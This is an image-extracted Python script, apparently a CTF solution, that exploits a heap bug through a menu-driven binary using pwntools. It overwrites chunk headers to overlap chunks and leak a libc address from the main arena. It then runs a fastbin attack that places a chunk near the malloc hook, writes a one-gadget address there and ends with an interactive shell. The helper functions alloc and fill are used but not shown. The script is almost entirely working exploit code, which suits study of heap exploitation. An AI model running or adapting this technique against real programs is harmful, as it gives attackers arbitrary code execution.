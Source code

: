 ```python

def free(index):
    sh.recvuntil(':')
    sh.sendline('3')
    sh.recvuntil(':')
    sh.sendline(str(index))

def dump(index):
    sh.recvuntil(':')
    sh.sendline('4')
    sh.recvuntil(':')
    sh.sendline(str(index))

alloc(0x10) #0
alloc(0x10) #1
alloc(0x10) #2
alloc(0x10) #3
alloc(0x80) #4
alloc(0x10) #5

#leack libc
free(1)
free(2)
payload=p64(0)+p64(0)+p64(0)+p64(0x21)+p64(0)+p64(0)+p64(0)+p64(0x21)+'\x80'
fill(0,len(payload),payload)
payload=p64(0)+p64(0)+p64(0)+p64(0x21)
fill(3,len(payload),payload)
alloc(0x10) #1
alloc(0x10) #2
payload=p64(0)+p64(0)+p64(0)+p64(0x91)
fill(3,len(payload),payload)
free(4)
dump(2)
sh.recvuntil('Content: \n')
topchunk_two=sh.recvline().replace('\n','')
length=len(topchunk_two)
topchunk=u64(topchunk_two[0:length/2])
main_arena=topchunk-0x58
target=main_arena-0x33
libc_base=topchunk-0x3c4b78
log.success('topchunk:'+hex(topchunk))
log.success('libc_base:'+hex(libc_base))
alloc(0x80) #4

alloc(0x60) #6
alloc(0x10) #7
free(6)
payload=p64(0)+p64(0)+p64(0)+p64(0x71)+p64(target)
fill(5,len(payload),payload)
alloc(0x60) #6
alloc(0x60) #8

payload='a'*0x13+p64(libc_base+0x4526a)
fill(8,len(payload),payload)

alloc(0x10)

sh.interactive()
```
